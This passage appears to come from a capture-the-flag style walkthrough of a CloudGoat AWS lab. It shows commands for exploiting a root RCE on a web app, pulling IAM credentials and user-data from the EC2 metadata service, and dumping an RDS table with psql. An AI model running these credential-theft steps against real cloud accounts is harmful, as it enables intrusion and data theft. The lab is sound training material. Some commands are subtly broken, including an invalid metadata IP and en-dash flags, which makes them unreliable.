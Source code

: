 ```bash
            –-region $AWS_REGION \
            -–profile $SRC_PROFILE`
DNSNAME=`echo $ELBINFO | jq -r .LoadBalancers[].DNSName`
# cg-lb-cgidp347lhz47g-accounid.us-east-1.elb.amazon.com
```


3. visit the secret admin URL

```bash
# visit the public IP address of the elastic load balancer. It references a secret URL.
curl $DNSNAME

# visit the secret admin URL (the .html webpage identified in the ELB log file)
cg-lb-cgidp347lhz47g-accounid.us-east-1.elb.amazon.com:80:xxxxx

# try different commands.
# the web app is vulnerable to a remote code execution (RCE) attack via a secret parameter embedded in a form.
# and the commands are running as root.


# query the instance metadata API to obtain the credentials to reveal the role name of the EC2 instance.
# The instance metadata contains data about the EC2 instance that you can use to configure or manage the running instance.
curl http://169.254.269.254/latest/meta-data/iam/security-credentials
curl http://169.254.269.254/latest/meta-data/iam/security-credentials/role-name
# querying the user data to see if there were any user data specified during the creation of the EC2 instance.
# all the command history, discovers the RDS database credentials and address.
curl http://169.254.169.254/latest/user-data

# The user data contains commands and credentials to the RDS instance (with table “sensitive information”).  
# access the RDS database using the credentials they found and acquires the scenario's goal: the secret text stored in the RDS database
psql postgresql://<db_user>:<db_password>@<rds-instance>:5432/<db_name>
# cloudgoat ->
# cloudgoat ->\dt
# cloudgoat ->select * from sensitive_information;
```


![012821-15-768x510](https://i.loli.net/2021/02/02/NlPfOEBxtuiAWY1.png)

![012821-16-768x420](https://i.loli.net/2021/02/02/F8bSCgEjBV62ZI1.png)

![012821-17](https://i.loli.net/2021/02/02/Wuk4rNJjtwVLiHT.png)

![012821-18](https://i.loli.net/2021/02/02/7PmExID5pHhqiMe.png)

![012821-21](https://i.loli.net/2021/02/02/NwfnIF4igUPLs5j.png)
